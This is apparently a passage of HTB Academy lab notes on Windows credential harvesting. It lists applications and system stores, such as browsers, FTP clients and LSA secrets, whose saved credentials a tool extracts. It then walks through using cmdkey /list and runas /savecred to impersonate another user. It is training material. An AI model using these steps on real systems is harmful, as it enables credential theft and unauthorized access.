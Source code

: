 ### Supported Software Categories

#### Browsers
- Chrome, Firefox, Internet Explorer, Edge
- Opera, Safari, SeaMonkey
- UC Browser, Chromium-based browsers

#### Email Clients
- Outlook, Thunderbird
- Windows Mail, Mailbird

#### Chat Applications
- Pidgin, Psi, Skype
- Jitsi, IceChat

#### Databases
- SQLite, MySQL, PostgreSQL
- MongoDB, CouchDB

#### FTP Clients
- FileZilla, WinSCP, FlashFXP
- SmartFTP, FTPNavigator

#### System Credentials
- Windows Credential Manager
- LSA Secrets, Autologon
- IIS Application Pool

### HTB Academy Scenario Walkthrough

#### Scenario Setup
```bash
# Target: Windows machine with saved credentials
# Access: RDP session as sadams
# Goal: Extract mcharles credentials
```

#### Step 1: Initial Enumeration
```cmd
# Check current user context
whoami
# Output: srv01\sadams

# Enumerate stored credentials
cmdkey /list
# Output shows: Target: Domain:interactive=SRV01\mcharles
```

#### Step 2: Privilege Escalation
```cmd
# Use saved credentials to impersonate mcharles
runas /savecred /user:SRV01\mcharles cmd

# Verify new context in new command window
whoami
# Output: srv01\mcharles
```
